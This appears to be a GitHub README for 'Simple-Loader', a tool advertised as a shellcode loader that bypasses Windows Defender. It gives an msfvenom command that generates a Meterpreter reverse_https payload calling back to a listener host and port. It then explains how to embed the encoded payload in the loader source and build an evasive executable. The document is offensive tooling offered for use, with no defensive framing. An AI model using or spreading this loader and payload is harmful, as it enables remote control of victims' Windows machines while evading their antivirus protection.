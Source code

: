 # Simple-Loader
An extendable Shell Code Loader to Bypass Windows Defender

## Modifying the payload
Edit the msfvenom command in `generate.sh`, for example:
```sh
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=4444 -f csharp -o /tmp/payload.txt
```

Running `generate.sh` gives an output:
```
public static string walrus = "base64 string...";
```

Replace the line in Simple-Loader/src/walrus.cs with the output from `generate.sh`

## Building
Running `./build.sh` builds the loader to Simple-Loader.exe
